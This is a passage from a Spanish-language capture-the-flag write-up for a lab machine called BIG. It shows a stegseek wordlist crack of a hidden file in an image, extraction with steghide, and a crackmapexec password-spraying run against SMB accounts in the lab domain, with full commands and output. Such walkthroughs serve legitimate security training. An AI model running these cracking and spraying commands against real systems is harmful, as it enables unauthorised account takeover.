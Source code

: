 <br>

<h3 id="stageseek">Crackeando Imágenes con stegseek</h3>

Vamos a instalar la herramienta **stegseek**:
```bash
apt install stegseek
```
Ya sabemos qué imagen debemos usar, siendo la imagen **big2.jpg**.

Bien, tenemos que indicarle que vamos a crackear (**--crack**) una imagen, la ubicación de la imagen, el wordlist a usar y donde se guardara el resultado:
```bash
stegseek --crack big2.jpg canciones/hashes.txt resultado.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "99ae77c0c0faf78b872f9f452e3eaa24"
[i] Original filename: "frase.txt".
[i] Extracting to "resultado.txt".
```
Muy bien, obtuvimos el **hash MD5** que funcionó, el archivo original que estaba oculto y se guarda su contenido en el archivo que escogimos.

Veamos ese archivo:
```bash
cat resultado.txt
...
```
La misma contraseña.

<br>

<h2 id="ComprobandoPass">Obteniendo Archivo Original con steghide y Aplicando Password Spraying con Nueva Contraseña</h2>

Probemos que pasa si usamos **steghide** y el **hash MD5** que resulto ser el correcto:
```bash
steghide extract -sf big2.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"frase.txt".
```
Obtuvimos el archivo oculto original.

Y si lo intentamos ver, podremos ver la misma contraseña:
```bash
cat frase.txt
...
```
Vamos a aplicar **Password Spraying** a la lista de usuarios que ya tenemos, para ver si esta contraseña pertenece a alguien.

Lo haremos con **crackmapexec**:
```bash
crackmapexec smb 192.168.212.4 -u usuarios.txt -p '******' --no-brute --continue-on-success
SMB         192.168.212.4   445    BIG              [*] Windows 10 / Server 2016 Build 14393 x64 (name:BIG) (domain:bbr.thl) (signing:True) (SMBv1:False)
SMB         192.168.212.4   445    BIG              [-] bbr.thl\big:****** STATUS_LOGON_FAILURE 
SMB         192.168.212.4   445    BIG              [-] bbr.thl\song:****** STATUS_LOGON_FAILURE 
SMB         192.168.212.4   445    BIG              [+] bbr.thl\music:****** 
SMB         192.168.212.4   445    BIG              [-] bbr.thl\administrator:****** STATUS_LOGON_FAILURE
```
Parece que es la contraseña para el **usuario music**.
